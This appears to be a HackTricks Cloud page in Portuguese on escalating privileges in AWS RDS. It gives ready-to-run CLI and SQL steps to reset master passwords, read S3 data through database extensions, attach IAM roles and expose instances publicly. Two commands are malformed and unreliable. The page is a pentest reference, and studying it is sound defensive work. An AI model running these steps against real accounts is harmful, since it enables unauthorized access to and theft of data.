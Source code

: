 # AWS - RDS Privesc

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

## RDS - Serviço de Banco de Dados Relacional

Para mais informações sobre RDS, confira:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Com essa permissão, um atacante pode **modificar a senha do usuário mestre**, e o login dentro do banco de dados:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Você precisará ser capaz de **contatar o banco de dados** (eles geralmente são acessíveis apenas de redes internas).
{% endhint %}

**Impacto Potencial:** Encontrar informações sensíveis dentro dos bancos de dados.

### rds-db:connect

De acordo com os [**docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), um usuário com essa permissão poderia se conectar à instância do DB.

### Abusar das permissões do papel IAM do RDS

#### Postgresql (Aurora)

{% hint style="success" %}
Se ao executar **`SELECT datname FROM pg_database;`** você encontrar um banco de dados chamado **`rdsadmin`**, você sabe que está dentro de um **banco de dados postgresql da AWS**.
{% endhint %}

Primeiro, você pode verificar se este banco de dados foi usado para acessar qualquer outro serviço da AWS. Você pode verificar isso observando as extensões instaladas:
```sql
SELECT * FROM pg_extension;
```
Se você encontrar algo como **`aws_s3`**, pode assumir que este banco de dados tem **algum tipo de acesso ao S3** (existem outras extensões como **`aws_ml`** e **`aws_lambda`**).

Além disso, se você tiver permissões para executar **`aws rds describe-db-clusters`**, pode ver lá se o **cluster tem algum IAM Role associado** no campo **`AssociatedRoles`**. Se houver, você pode assumir que o banco de dados foi **preparado para acessar outros serviços da AWS**. Com base no **nome da função** (ou se você puder obter as **permissões** da função), você poderia **adivinhar** que acesso extra o banco de dados possui.

Agora, para **ler um arquivo dentro de um bucket**, você precisa saber o caminho completo. Você pode lê-lo com:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Se você tivesse **credenciais AWS brutas**, também poderia usá-las para acessar dados do S3 com:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **não precisa mudar nenhuma variável do grupo de parâmetros** para poder acessar o S3.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Dentro de um mysql, se você executar a consulta **`SELECT User, Host FROM mysql.user;`** e houver um usuário chamado **`rdsadmin`**, você pode assumir que está dentro de um **banco de dados mysql AWS RDS**.
{% endhint %}

Dentro do mysql, execute **`show variables;`** e se as variáveis como **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, tiverem valores, você pode assumir que o banco de dados está preparado para acessar dados do S3.

Além disso, se você tiver permissões para executar **`aws rds describe-db-clusters`**, pode verificar se o cluster tem alguma **função associada**, o que geralmente significa acesso a serviços da AWS.

Agora, para **ler um arquivo dentro de um bucket** você precisa saber o caminho completo. Você pode lê-lo com:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Um atacante com as permissões `rds:AddRoleToDBCluster` e `iam:PassRole` pode **adicionar um papel especificado a uma instância RDS existente**. Isso pode permitir que o atacante **acesse dados sensíveis** ou modifique os dados dentro da instância.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados na instância RDS.\
Observe que alguns DBs requerem configurações adicionais, como Mysql, que precisa especificar o ARN da função nos grupos de parâmetros também.

### `rds:CreateDBInstance`

Apenas com essa permissão, um atacante poderia criar uma **nova instância dentro de um cluster** que já existe e tem uma **função IAM** anexada. Ele não poderá alterar a senha do usuário mestre, mas pode ser capaz de expor a nova instância de banco de dados à internet:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Um atacante com as permissões `rds:CreateDBInstance` e `iam:PassRole` pode **criar uma nova instância RDS com um papel especificado anexado**. O atacante pode então potencialmente **acessar dados sensíveis** ou modificar os dados dentro da instância.

{% hint style="warning" %}
Alguns requisitos do papel/perfil de instância para anexar (de [**aqui**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* O perfil deve existir em sua conta.
* O perfil deve ter um papel IAM que o Amazon EC2 tenha permissões para assumir.
* O nome do perfil da instância e o nome do papel IAM associado devem começar com o prefixo `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados na instância RDS.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Um atacante com as permissões `rds:AddRoleToDBInstance` e `iam:PassRole` pode **adicionar um papel especificado a uma instância RDS existente**. Isso poderia permitir que o atacante **acessasse dados sensíveis** ou modificasse os dados dentro da instância.

{% hint style="warning" %}
A instância do DB deve estar fora de um cluster para isso
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Impacto Potencial**: Acesso a dados sensíveis ou modificações não autorizadas nos dados na instância RDS.

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
